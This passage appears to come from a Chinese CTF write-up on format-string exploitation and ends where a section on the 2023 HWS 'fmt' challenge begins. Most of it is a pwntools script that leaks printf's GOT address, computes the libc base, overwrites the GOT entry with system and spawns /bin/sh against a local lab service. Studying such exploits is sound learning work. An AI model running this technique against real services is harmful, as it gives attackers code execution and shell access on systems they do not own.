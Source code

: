 ```plain


p = remote('127.0.0.1',10002)
#elf=ELF('./dump_bin')
libc=ELF('/lib/i386-linux-gnu/libc.so.6')
#p=process('./dump_bin')

printf_plt=0x08048490
name='aaaa'
p.sendline(name)
p.recv()

payload=b'%9$saaaa'+p32(printf_plt)
p.sendline(payload)
p.recvuntil('right:')
p.recvuntil('\xff\x25')
printf_got=u32(p.recv(4))
leak('printf_got',printf_got)

p.recv()

payload1=b'%9$saaaa'+p32(printf_got)
p.sendline(payload1)
p.recvuntil('right:')
printf=u32(p.recv(4))
leak('printf',printf)

libcbase=printf-libc.symbols['printf']
leak('libcbase',libcbase)

system=libcbase+libc.symbols['system']
leak('system',system)


shell=fmtstr_payload(7, {printf_got: system})
p.sendline(shell)
p.sendline('/bin/sh\00')
p.interactive()
```

#### 2023HWS fmt

在学习完格式化字符串之后，尝试下去打了HWS的fmt这道题，比赛时还差一点打出来，赛后在其他师傅的指导下打出来了

**file&checksec**

[![](assets/1701612281-96be9f4cda8f662dc6988635da43870d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224306-67f894a4-2579-1.png)
